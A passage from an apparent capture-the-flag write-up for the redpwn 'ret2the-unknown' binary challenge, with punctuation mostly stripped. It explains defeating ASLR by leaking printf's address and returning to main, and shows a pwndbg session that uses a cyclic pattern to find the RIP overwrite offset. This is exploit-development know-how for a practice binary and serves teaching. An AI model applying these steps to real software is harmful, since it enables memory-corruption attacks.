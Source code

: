 The printf   address is shown in red

This change is evidence of the existence of ASLR  address space layout randomization   which is a security feature to help prevent memory corruption vulnerabilities  Therefore  the base address of libc cannot be easily calculated by subtracting the address of printf in the previous execution of the binary by the printf symbol in the given libc file 

Exploit Construction
                    

    GDB

Thus  to correctly calculate the libc base address  it is essential to overwrite RIP to point to main   so that the binary allows us to input a second payload  this time with the knowledge of the printf address   First  the offset of RIP must be calculated 

   highlight bash   
   0xd4y Writeup     business ctf redpwn pwn ret2the unknown                                                                                                                             
      gdb   ret2the unknown  q  
pwndbg  loaded 196 commands  Type pwndbg  filter  for a list   
pwndbg  created  rebase   ida gdb functions  can be used with print break   
Reading symbols from   ret2the unknown     
 No debugging symbols found in   ret2the unknown   
pwndbg  r     cyclic 100               
Starting program   home 0xd4y business ctf redpwn pwn ret2the unknown ret2the unknown     cyclic 100   
that board meeting was a  smashing  success  rob loved the challenge                             
in fact  he loved it so much he sponsored me a business trip to this place called  libc        
where is this place  can you help me get there safely                                       
phew  good to know  shoot  i forgot                                                             
rob said i d need this to get there  7ffff7e44cf0                                                
good luck                                                                                       
                       
Program received signal SIGSEGV  Segmentation fault                                             
                                            DISASM                                              
  0x401237  main 177     ret     0x6161616c6161616b   
  
                                            STACK                                               
00 0000  rsp 0x7fffffffde38      kaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa   
01 0008      0x7fffffffde40      maaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa   
02 0010      0x7fffffffde48      oaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa   
03 0018      0x7fffffffde50      qaaaraaasaaataaauaaavaaawaaaxaaayaaa   
04 0020      0x7fffffffde58      saaataaauaaavaaawaaaxaaayaaa   
05 0028      0x7fffffffde60      uaaavaaawaaaxaaayaaa   
06 0030      0x7fffffffde68      waaaxaaayaaa   
07 0038      0x7fffffffde70     0x61616179     yaaa      
                                          BACKTRACE                                             
  f 0         0x401237 main 177  
  f 1 0x6161616c6161616b  
  f 2 0x6161616e6161616d  
  f 3 0x616161706161616f  
  f 4 0x6161617261616171  
  f 5 0x6161617461616173  
  f 6 0x6161617661616175  
  f 7 0x6161617861616177  
                                                                                                
